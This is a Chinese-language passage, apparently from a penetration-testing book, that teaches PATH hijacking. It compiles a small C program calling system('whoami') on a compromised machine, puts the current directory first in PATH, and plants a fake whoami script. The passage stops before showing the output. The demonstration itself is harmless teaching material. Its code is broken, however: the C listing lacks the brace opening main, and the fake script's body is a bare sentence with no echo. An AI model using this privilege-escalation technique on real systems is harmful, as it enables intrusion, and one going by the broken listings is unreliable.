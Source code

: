 我们可以像之前的示例一样将路径追加到 PATH 中，也可以将它们提前。以下示例中，我们将当前工作目录（.）添加到路径前面：

```
$ **PATH=.:$PATH**
```

现在，如果一个可执行文件以 root 身份运行并调用外部命令作为其逻辑的一部分，它可能会执行攻击者控制的文件，而不是预期的可执行文件。

作为一个示例，让我们使用 PATH 劫持来运行一个自定义可执行文件。我们将以以下用 C 语言编写的程序为目标，该程序调用了 whoami 命令。让我们看看是否能够让它运行我们选择的不同二进制文件：

```
#include <stdio.h>
#include <stdlib.h>

int main(void)
    // This has the potential to get hijacked.
  ❶ system("whoami");

    // This should not be possible to hijack.
  ❷ system("/usr/bin/whoami");
    return 0;
} 
```

在❶处，代码使用命令 system("whoami")调用 whoami 命令，在❷处，它通过使用其绝对路径*/usr/bin/whoami*直接调用*whoami*二进制文件。

将此代码复制到任何被攻陷的机器上，保存为名为*getuser.c*的新文件。你也可以直接从书籍的 GitHub 仓库下载此文件。接下来，使用 GNU 编译器集合（GCC）编译该程序并使其可执行：

```
$ **gcc getuser.c -o getuser**
```

这应该会创建一个名为*getuser*的新二进制文件。让我们设置其可执行权限：

```
$ **chmod u+x getuser**
```

现在，设置 PATH，使当前目录被添加到它的前面：

```
$ **PATH="$(pwd):$PATH"**
$ **echo $PATH**
**/tmp**:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
```

在这个输出中，你可以看到*/tmp*目录被添加到 PATH 前面。这是因为我们在执行此命令时位于*/tmp*目录；如果你导航到其他目录，你的值可能会有所不同。确保*getuser*二进制文件位于你添加到 PATH 前面的目录中。

由于我们控制了 PATH 中的一个目录，我们可以在该路径中创建一个伪造的*whoami*脚本（清单 9-2）。

```
$ **echo "#!/bin/bash" >> whoami**
$ **echo "I am not the whoami you were looking for!" >> whoami**
$ **chmod u+x whoami** 
```

清单 9-2：伪造 whoami 可执行文件

*getuser*程序将在 PATH 中查找 whoami 命令，既然*/tmp*会最先被读取，它应该会选择伪造的程序。运行*getuser*查看结果：
